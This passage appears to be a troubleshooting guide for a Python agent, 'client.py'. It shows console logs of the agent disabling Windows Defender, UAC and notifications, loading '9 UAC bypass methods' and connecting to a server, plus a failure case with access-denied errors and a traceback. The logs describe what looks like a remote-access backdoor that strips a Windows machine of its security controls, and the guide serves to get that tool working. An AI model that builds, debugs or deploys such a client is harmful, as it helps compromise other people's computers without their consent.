 ```bash
[STARTUP] ✅ Windows Defender disabled successfully

[STARTUP] Step 3: Disabling Windows notifications...
[NOTIFICATIONS] Disabling Windows notifications...
[STARTUP] ✅ Notifications disabled successfully

[STARTUP] === SYSTEM CONFIGURATION COMPLETE ===

[STARTUP] Calling main_unified()...
[AGENT] Initializing background components...
[UAC MANAGER] Initialized 9 UAC bypass methods
[AGENT] Connecting to server...
✅ Connected to server!
```

---

### **If Error Occurs:**

```bash
python client.py

# Output:
[STARTUP] Python Agent Starting...
[STARTUP] Initializing components...
[STARTUP] === SYSTEM CONFIGURATION STARTING ===
[STARTUP] Step 0: Disabling WSL routing (AGGRESSIVE)...
[STARTUP] WSL routing error: [Errno 13] Permission denied: 'C:\\Windows\\System32\\cmd.exe'

[STARTUP] Step 1: Disabling UAC...
[STARTUP] UAC disable error: Access is denied

[STARTUP] Step 2: Disabling Windows Defender...
[STARTUP] Defender disable error: Access is denied

[STARTUP] === SYSTEM CONFIGURATION COMPLETE ===

[STARTUP] Calling main_unified()...

Traceback (most recent call last):
  File "client.py", line 11083, in <module>
    main_unified()
  File "client.py", line 9876, in main_unified
    ...actual error here...
NameError: name 'some_variable' is not defined

# Now you can see the ACTUAL error!
```

---

## 🧪 DIAGNOSTIC SCRIPT
